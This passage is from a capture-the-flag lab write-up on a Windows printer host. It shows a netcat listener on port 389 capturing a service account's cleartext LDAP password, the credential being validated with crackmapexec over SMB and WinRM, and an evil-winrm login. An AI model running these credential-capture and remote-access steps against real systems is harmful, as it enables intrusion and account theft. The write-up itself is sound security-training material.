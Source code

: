```
2025/04/21 16:35:43 >  [+] VALID USERNAME:       svc-printer@return.local
2025/04/21 16:35:43 >  Done! Tested 1 usernames (1 valid) in 0.022 seconds
```
- Port 389 is for LDAP. We turn on netcat to see if we can catch anything. We add our IP address as the server address and have netcat listening
	- I first try to add 9999 but nothing happens so I check if I get anything at 389 since that was there already
		```bash
nc -lvnp 389

---OUTPUT---
listening on [any] 389 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.108] 59328
0*`%return\svc-printer�
                       1edFg43012!!
```
		- We get some text. This may be a password.
- We check if these credentials work
	```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' --shares
--
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

---OUTPUT-SMB-SHARES---
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 

---OUTPUT-WINRM---
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
- We login to target with our credentials and grab the user flag.
	```bash
evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.10.11.108
